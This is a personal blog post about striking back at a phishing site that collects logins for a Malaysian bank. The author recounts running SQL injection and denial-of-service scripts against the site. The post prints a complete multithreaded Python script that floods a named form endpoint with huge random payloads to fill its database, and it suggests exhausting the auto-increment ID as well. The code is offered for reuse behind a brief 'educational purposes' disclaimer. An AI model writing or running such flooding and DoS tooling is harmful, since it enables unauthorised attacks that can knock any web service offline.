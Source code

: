 ```yaml
---
layout: default
title:  "Annoying those phishers"
date:   2021-01-21 12:56:00 +0800
---
```


So a few hours ago a friend alerted me on facebook about a phishing site hosted in Turkey. After doing reconnaissance, i found out that the website is hosted in Turkey and the perpretor is actually a portuguese.

![Phishing site]({{ site.url }}/assets/images/maybank phishing.jpg){:class="img-responsive"}

And this guy was collecting username and passwords of a large bank in Malaysia (I am in Malaysia).

Ran a couple of SQL Injection scripts but at the same time i ran a DoS script that is powerful that was utilizing his resources and might send an alert to the provider on the activity on their network.

After working on the third version of the python script which was heavily threaded, i had also made a similar version that sends a large data that will be stored in his database. (the limit of a table size in MySQL is 65536 bytes) but i was hitting his server at 50Mbit/s running 25 python threads at one short.

so 2 scripts, my machine was running 50 threads concurrently.

![Python DoS]({{ site.url }}/assets/images/python dos.png){:class="img-responsive"}

But i ran two scripts, one with small payloads (to increase autoincrement faster) and a bigger payload (about 1.5MB per database row)

After running it for about half-and-hour, the perpretor finally took it's website down.

![Site 404]({{ site.url }}/assets/images/attack successful.png){:class="img-responsive"}

Most of the phishing sites are really simple forms and you can check the requests to launch and attack on them.

So here is the script (do not abuse it but you can read it for educational purposes)

fills the database with large random data
```
import logging
import threading
import requests
import random, string

def randomword(length):
   letters = string.ascii_lowercase
   return ''.join(random.choice(letters) for i in range(length))

headers = {'User-Agent': 'Mozilla/5.0'}
payload = {'pais':'ru','ip':'0.0.0.0', 'password': randomword(500000), 'systema': randomword(500000), 'ir': randomword(500000)}

def generate_requests(name):
    while True:
        logging.info("Thread %s: starting", name)
        session = requests.Session()
        r = session.post('https://onlinemaycampaign.com/home/m2u/common/indexSend.php',headers=headers,data=payload)
        print(r.text)
        logging.info("Thread %s: finishing", name)

if __name__ == "__main__":
    format = "%(asctime)s: %(message)s"
    logging.basicConfig(format=format, level=logging.INFO,
                        datefmt="%H:%M:%S")

    threads = list()
    for index in range(25):
        logging.info("Main    : create and start thread %d.", index)
        x = threading.Thread(target=generate_requests, args=(index,))
        threads.append(x)
        x.start()

    for index, thread in enumerate(threads):
        logging.info("Main    : before joining thread %d.", index)
        thread.join()
        logging.info("Main    : thread %d done", index)
```

Do note that you can modify this to use smaller data to increase the autoincrement ID of the database a lot faster (so there will be errors on the database if it reaches 4 billion rows - if the adversary depending if it is unsigned INT - which is common)
